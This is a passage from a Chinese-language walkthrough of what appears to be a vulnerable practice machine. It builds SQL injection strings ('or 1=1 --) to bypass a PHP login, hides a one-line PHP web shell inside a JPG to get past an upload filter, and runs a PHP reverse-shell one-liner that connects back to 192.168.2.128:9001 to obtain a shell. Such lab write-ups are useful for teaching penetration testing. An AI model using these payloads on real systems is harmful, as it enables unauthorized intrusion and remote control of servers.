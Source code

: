     $row = mysqli_fetch_assoc($result);
               echo "You are allowed<br>";
               $_SESSION['logged']=true;
               $_SESSION['admin']=$row['username'];
               
             header('Location: panel.php', true, 302);
       
    }
    else
    {
            echo "<script>alert('Try again');</script>";
    }
    
    }
    echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";
    
    ?>
    
    ```

-   构建sql语句

-   ```sql
    select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\';
    select * from auth where pass = \'' 'or 1=1 -- \'\' and uname=\' 'or 1=1 -- \''\';
    
    select * from auth where  pass=\' 'or 1=1 -- \' and uname=\' 'or 1=1 -- \';
    
    
    $pass = 'or 1=1 -- \
    $uname = 'or 1=1 -- \
    ```

    

#### sql注入测试

-   ![image-20230608091339778](https://raw.githubusercontent.com/r0o983/images/main/image-20230608091339778.png)
-   通过之前构造的`sql`语句成功进入系统，发现在当前页面可以添加用户，以及上传用户头像，所以这里使用使用图片马进行上传测试（测试过上传php，发现有验证，只允许上传png,jpg,gif
-   ![image-20230608091539693](https://raw.githubusercontent.com/r0o983/images/main/image-20230608091539693.png)

-   在图像中塞入一句话木马：`<?php system($_GET['cmd']); ?>`

-   图片上传成功，使用burp拦截测试

-   ![image-20230608092152854](https://raw.githubusercontent.com/r0o983/images/main/image-20230608092152854.png)

-   使用`burp`拦截测试，发现可以正常返回数据，使用反弹shell来进行连接-->ps:使用png图片无法进行访问，不知什么原因，无奈改为jpg格式图片进行上传

-   ![image-20230608095623762](https://raw.githubusercontent.com/r0o983/images/main/image-20230608095623762.png)

-   反弹shell代码：`php -r '$sock=fsockopen("192.168.2.128",9001);shell_exec("sh <&3 >&3 2>&3");'`此处需要将代码进行关键字符转义，否则无法获得反弹连接

-   本地发起监听，等待靶机回连--> 获得初始shell
